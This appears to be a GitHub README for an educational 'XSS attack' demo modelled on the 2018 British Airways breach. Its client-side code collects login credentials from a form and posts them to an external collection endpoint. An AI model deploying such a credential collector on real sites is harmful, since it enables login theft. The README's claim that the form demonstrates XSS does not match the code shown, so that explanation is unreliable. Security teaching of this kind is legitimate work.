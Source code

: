 # XSS Attack Project

## Disclaimer
This project is intended for educational purposes only. Cross-Site Scripting (XSS) is a security vulnerability that should only be tested responsibly and with proper authorization. Unauthorized testing of XSS vulnerabilities is illegal and unethical.

## Project Description
This project demonstrates a Cross-Site Scripting (XSS) attack using a simple login form. The server collects login data and saves it to a JSON file.

## Table of Contents

1. [Installation](#installation)
2. [How to run the code](#how-to-run-the-code)
3. [Client Side Code](#client-side-code)
4. [XSS Demo Video](#xss-demo-video)
5. [British Airways Data Breach Simulation](#british-airways-data-breach-simulation)
6. [Contribution Guidelines](#contribution-guidelines)
7. [License Information](#license-information)
8. [Additional Resources](#additional-resources)

## Installation

* Ensure you have Node.js installed on your machine. You can download it from [Node.js](https://nodejs.org/).
* Ensure you have Git installed on your machine. You can download it from [Git](https://git-scm.com/).
* Clone the repository to your local machine.
* Navigate to the project directory.
* Install the dependencies by running the following command:
  ```bash
  npm install
  ```

## How to run the code

* It is recommended to run this project in a local or isolated environment due to potentially sensitive login data. But you can run on GitHub Codespace as well.
* Start the server by running the following command:
  ```bash
  node server.js
  ```

## Client Side Code

```html
<form id="loginForm">
<label for="username">Username:</label>
<input type="text" id="username" name="username" required><br><br>
 
<label for="password">Password:</label>
<input type="password" id="password" name="password" required><br><br>
 
<button type="button" id="loginButton">Login</button>
</form>
 
<script>
const apiUrl = 'https://unearthly-hex-679pp459qqgh574r-8001.app.github.dev/collect';

        function sendLoginToAPI(event) {
            event.preventDefault();

            alert("Login button clicked!");

            const username = $('#username').val();
            const password = $('#password').val();

            if (!username || !password) {
                alert("Both username and password are required.");
                return;
            }

            $.ajax({
                url: apiUrl,
                method: 'POST',
                contentType: 'application/json',
                data: JSON.stringify({ username: username, password: password }),
                success: function(data) {
                    console.log('Login response:', data);
                    alert('Login successful!');
                },
                error: function(xhr, status, error) {
                    console.error('Login failed:', error);
                    alert('Invalid username or password.');
                }
            });
        }

        $('#loginButton').on('mousedown', sendLoginToAPI);
</script>
```

Change your workspace name to your own workspace name in the apiUrl variable.

### Explanation
The client-side code handles the user input from the login form. When the login button is clicked, the `sendLoginToAPI` function is triggered. This function collects the username and password entered by the user and sends them to the server using an AJAX POST request. The server then processes this data and saves it to a JSON file. The XSS vulnerability could be exploited if an attacker injects malicious scripts into the username or password fields, which would then be executed when the data is processed or displayed.

## XSS Demo Video
<details><summary>View Demo Video</summary>


https://github.com/user-attachments/assets/289917ae-d0b3-43f3-8b9d-1af6f298c824

</details>

## British Airways Data Breach Simulation

### Back Story
In 2018, British Airways experienced a significant data breach that affected approximately 400,000 customers. The breach was a result of attackers exploiting vulnerabilities in the British Airways website, allowing them to steal sensitive customer information, including personal and financial data. The incident highlighted the importance of robust security measures to protect user data and prevent unauthorized access.

### Simulation Details
This project simulates the British Airways data breach by demonstrating several key vulnerabilities that were present in the actual incident. Here are the specific ways in which this project mirrors the British Airways data breach:

* **Cross-Site Scripting (XSS)**: The project demonstrates how an attacker can inject malicious scripts into the username or password fields of a login form. This is similar to how attackers exploited vulnerabilities in the British Airways website to steal customer data. The client-side code in `client_code.html` and the server-side code in `server.js` illustrate this vulnerability.

* **Insecure Data Storage**: The project saves login data, including usernames and passwords, to a JSON file (`users.json`) without any encryption or hashing. This mirrors the lack of proper data protection measures that contributed to the British Airways data breach.

* **Lack of Input Validation**: The server-side code in `server.js` performs only basic validation for the presence of username and password fields. It does not sanitize or validate the input to prevent malicious data from being processed, similar to the insufficient input validation that allowed attackers to exploit the British Airways website.

* **CORS Misconfiguration**: The server in `server.js` enables CORS (Cross-Origin Resource Sharing) without any restrictions, which can allow unauthorized domains to interact with the server and potentially exploit vulnerabilities. This is akin to the misconfigurations that can lead to data breaches like the one experienced by British Airways.

These vulnerabilities highlight the importance of implementing proper security measures, such as input validation, data encryption, and secure CORS configurations, to protect against attacks and ensure the safety of user data.

### Relevant Links
For more information about the British Airways data breach, you can refer to the following links:

* [British Airways data breach: What happened, how it affected customers, and what to do next](https://www.techradar.com/news/british-airways-data-breach-what-happened-how-it-affected-customers-and-what-to-do-next)
* [British Airways fined £20m for data breach affecting 400,000 customers](https://www.theguardian.com/business/2020/oct/16/british-airways-fined-20m-for-data-breach-affecting-400000-customers)
* [British Airways data breach: What you need to know](https://www.csoonline.com/article/3444488/british-airways-data-breach-what-you-need-to-know.html)
* [British Airways data breach: What happened and what to do](https://www.itpro.co.uk/security/32117/british-airways-data-breach-what-happened-and-what-to-do)

## Contribution Guidelines

1. Fork the repository.
2. Create a new branch for your feature or bugfix.
3. Commit your changes with a descriptive message.
4. Push your changes to your forked repository.
5. Create a pull request to the main repository.

## License Information

This project is licensed under the Apache License, Version 2.0.

## Additional Resources

* [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
* [MDN Web Docs: Cross-Site Scripting (XSS)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)
